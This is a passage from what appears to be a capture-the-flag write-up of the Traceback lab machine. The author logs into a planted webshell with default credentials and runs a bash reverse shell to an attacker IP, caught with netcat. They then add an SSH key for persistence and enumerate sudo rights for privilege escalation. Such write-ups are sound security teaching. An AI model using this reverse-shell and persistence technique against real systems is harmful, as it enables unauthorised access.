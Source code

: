     $UserName = "admin";                                      //Your UserName here.
    $auth_pass = "admin";                                  //Your Password.
    

And it works, letting me into the webshell where I can see the various
options:

![image-20200315121522863](https://0xdfimages.gitlab.io/img/image-20200315121522863.png)

There’s a lot of capability here, but I just want a shell, so I’ll start `nc`
listening on my host, and enter `bash -c 'bash -i >& /dev/tcp/10.10.14.6/443
0>&1'` into the Execute box:

    
    
    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.181] 40482
    bash: cannot set terminal process group (546): Inappropriate ioctl for device
    bash: no job control in this shell
    webadmin@traceback:/var/www/html$ id
    uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
    

This seems to hang the webshell. I quickly added a RSA public key to
`/home/webadmin/.ssh/authorized_keys`, and got an SSH connection. In fact, I
could have done that through the webshell.

## Priv: webadmin –> sysadmin

### Enumeration

The home directory doesn’t have `user.txt`, but it does have a note:

    
    
    webadmin@traceback:~$ ls -l
    total 4
    -rw-rw-r-- 1 sysadmin sysadmin 122 Mar 16 03:53 note.txt
    

`note.txt` is from the other user on the box, sysadmin:

    
    
    webadmin@traceback:~$ cat note.txt 
    - sysadmin -
    I have left this tool to practice Lua. Contact me if you have any question.
    

Additionally, webadmin can run `luvit` as sysadmin without a password using
`sudo`:

    
    
    webadmin@traceback:~$ sudo -l
    Matching Defaults entries for webadmin on traceback:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    